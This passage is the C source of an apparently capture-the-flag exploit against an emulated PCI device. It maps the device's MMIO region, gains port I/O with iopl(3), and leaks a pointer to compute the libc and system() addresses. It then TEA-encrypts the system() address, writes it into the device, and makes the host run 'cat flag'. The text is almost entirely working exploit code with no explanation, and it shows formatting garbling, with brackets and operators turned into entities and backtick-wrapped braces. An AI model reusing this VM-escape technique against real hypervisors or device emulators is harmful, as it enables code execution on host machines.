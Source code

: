 ```

    int fd = open("/sys/bus/pci/devices/0000\:00\:03.0/resource0", O_RDWR | O_SYNC);
    mmio_base = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);

    if (iopl(3) != 0)
    `{`
        puts("iopl fail!");
        exit(-1);
    `}`

    pmio_write(8, 0x100);
    // getchar();
    mmio_write(8, 0);
    mmio_write(0x18, 0);
    // getchar();
    u_int32_t tmp;
    u_int64_t rand_addr;
    u_int64_t libc, sys;
    rand_addr = mmio_read(0x18);
    printf("rand 0x%llx\n", rand_addr);
    rand_addr += ((u_int64_t)mmio_read(0x18)) &lt;&lt; 32;
    printf("rand 0x%llx\n", rand_addr);

    libc = rand_addr - 0x4aeb0;
    printf("libc 0x%llx\n", libc);

    sys = libc + 0x55410;
    printf("sys 0x%llx\n", sys);
    printf("sys_low 0x%llx\n", sys &amp; 0xffffffff);

    key[0] = pmio_read(12);
    key[1] = pmio_read(16);
    key[2] = pmio_read(20);
    key[3] = pmio_read(24);
    for (int i = 0; i &lt; 4; i++)
    `{`
        printf("key%d: 0x%lx\n", i, key[i]);
    `}`
    u_int64_t t = tea(sys);
    printf("tea sys 0x%lx\n", t);
    printf("tea sys low 0x%lx\n", t &amp; 0xffffffff);
    mmio_write(0x18, t &amp; 0xffffffff);
    printf("tea sys high 0x%lx\n", t &gt;&gt; 32);
    mmio_write(0x18, t &gt;&gt; 32);

    // getchar();
    char *flag = "cat flag";
    tmp = tmp = *((u_int32_t *)flag + 1);
    printf("0x%lx", tmp);
    pmio_write(8, 0);
    mmio_write(0, tmp);
    tmp = *(u_int32_t *)flag;
    printf("0x%lx", tmp);
    pmio_write(28, tmp);
    return 0;
`}`
```
